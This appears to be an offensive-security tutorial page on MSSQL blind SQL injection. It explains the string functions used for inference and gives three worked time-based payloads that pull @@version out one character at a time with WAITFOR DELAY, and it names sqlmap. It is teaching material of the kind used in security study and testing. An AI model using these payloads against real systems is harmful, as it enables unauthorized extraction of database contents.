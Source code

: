 ```yaml
---
title: Exploit MSSQL Blind SQL Injection Techniques
description: Learn MSSQL Blind SQL Injection exploitation for data extraction with
  key functions and step-by-step guidance.
keywords:
- MSSQL
- Blind SQL Injection
- data extraction
- substring()
- ascii()
- SQL query
- inference attacks
---
```


# MSSQL Blind

## Context

This article aims to teach the exploitation of MSSQL Blind SQL Injection for data extraction. It assumes that the reader has an intermediate understanding of SQL query structures and the HTTP request/response cycle. 

## Theory

### Blind SQL Injection in MSSQL

Blind SQL Injection is a technique where attackers can infer data from a database without receiving direct output. This attack is possible due to the way web applications process SQL queries without displaying error messages or results directly from the database. Instead, attackers use conditional responses or timing delays to extract information.

### Function Usage in Blind SQL Injection

Blind SQL Injection relies heavily on specific MSSQL functions to infer data:

- **substring()**: This function extracts a part of a string, essential for determining parts of data like a database version.
  
- **ascii()**: It returns the ASCII value of a character. By comparing character values, the attacker can infer data character by character.
  
- **charindex()**: This function finds the position of a substring in a string, useful for positional inference.
  
- **left()**: Retrieves the leftmost part of a string, assisting in narrowing down data extraction.
  
- **right()**: Similar to `left()`, but retrieves the rightmost part of the string; both help in extracting specific data.

### Data Extraction Mechanisms

Blind SQL Injections extract data using conditional logic to evaluate true or false conditions. This methodology hinges on protocol weaknesses, such as response times or changes in page content based on the executed query. For example, an injected payload might cause the server to delay its response if a condition is true, thus indirectly revealing data.

## Practice

### Blind SQL Injection Data Extraction

Execute these steps to extract data via Blind SQL Injection in MSSQL:

1. Determine if the first character of `@@version` is 'M' (ASCII 77):
    ```bash
    SELECT CASE WHEN (SELECT ASCII(SUBSTRING(@@version,1,1)))=77 THEN WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0' END
    ```
    - If the server delays its response by 5 seconds, the character is confirmed as 'M'.

2. Determine if the second character of `@@version` is 'i' (ASCII 105):
    ```bash
    SELECT CASE WHEN (SELECT ASCII(SUBSTRING(@@version,2,1)))=105 THEN WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0' END
    ```
    - A delayed response confirms the character as 'i'.

3. Determine if the third character of `@@version` is 'c' (ASCII 99):
    ```bash
    SELECT CASE WHEN (SELECT ASCII(SUBSTRING(@@version,3,1)))=99 THEN WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0' END
    ```
    - A 5-second delay means the character is 'c'.

By using these methods sequentially, attackers can extract database version information or other sensitive data.

## Tools

- **sqlmap**